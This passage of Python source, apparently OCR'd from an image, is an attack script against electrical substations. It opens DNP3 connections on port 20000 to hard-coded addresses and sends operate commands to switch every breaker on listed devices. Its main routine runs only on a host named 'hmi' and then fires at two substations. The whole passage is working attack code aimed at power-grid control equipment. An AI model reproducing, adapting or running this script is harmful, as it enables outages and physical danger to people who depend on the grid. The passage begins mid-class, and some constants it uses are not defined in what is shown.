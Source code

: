 ```shell
        self.target = ip_address
        self.devices = []
        self.src = 50
        self.transport_seq = 0
        self.app_seq = 10
        for device in devices:
            self.add_device(device)

        self.connect()

    def connect(self):
        print('Connecting to {}...'.format(self.target))
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.connect((self.target, 20000))
        print('Connected to {}'.format(self.target))

    def add_device(self, device):
        self.devices.append({'dst':device[0],  'count':device[1]})

    def activate_all_breakers(self, code):
        for device in self.devices:
            dnp3_header = self.get_dnp3_header(device['dst'])
            for x in range(1, device['count'] * 2, 2):
                dnp3_packet = dnp3_header + self.get_dnp3_data(x, OPT_1, code)
                self.socket.send(dnp3_packet)
                time.sleep(2)
                dnp3_packet = dnp3_header + self.get_dnp3_data(x, OPT_2, code)
                self.socket.send(dnp3_packet)
                time.sleep(5)

    def get_dnp3_header(self, dst):
        data = struct.pack('<H2B2H', 25605, 24, 196, dst, self.src)
        data += struct.pack('<H', Crc16Dnp.calc(data))
        return data

    def get_dnp3_data(self, index, function, code):
        data = struct.pack('<10BIH', 192 + self.transport_seq, 192 + self.app_seq, function, 12, 1, 23, 1, index, code, 1, 500, 0)
        data += struct.pack('<H', Crc16Dnp.calc(data))
        data += struct.pack('<HBH', 0, 0, 65535)
        self.transport_seq += 1
        self.app_seq += 1
        if self.transport_seq >= 62:
            self.transport_seq = 0
        if self.app_seq >= 62:
            self.app_seq = 0
        return data


def main():
    if socket.gethostname() != 'hmi':
        sys.exit(1)
    substation_a = Substation('10.95.101.80', [(2, 4), (19, 8)])
    substation_b = Substation('10.95.101.81', [(9, 5), (8, 7), (20, 12), (15, 19)])
    substation_c = Substation('10.95.101.82', [(14, 14), (9, 16), (15, 4), (12, 5)])
    substation_d = Substation('10.95.101.83', [(20, 17), (16, 8), (8, 14)])
    substation_e = Substation('10.95.101.84', [(12, 4), (13, 5), (4, 2), (11, 9)])
    substation_f = Substation('10.95.101.85', [(1, 4), (3, 9)])
    substation_g = Substation('10.95.101.86', [(10, 14), (20, 7), (27, 4)])
    substation_h = Substation('10.95.101.87', [(4, 1), (10, 9), (13, 6), (5, 21)])
    substation_i = Substation('10.95.101.88', [(14, 13), (19, 2), (8, 6), (17, 8)])
    substation_a.activate_all_breakers(OPT_3)
    substation_b.activate_all_breakers(OPT_4)
```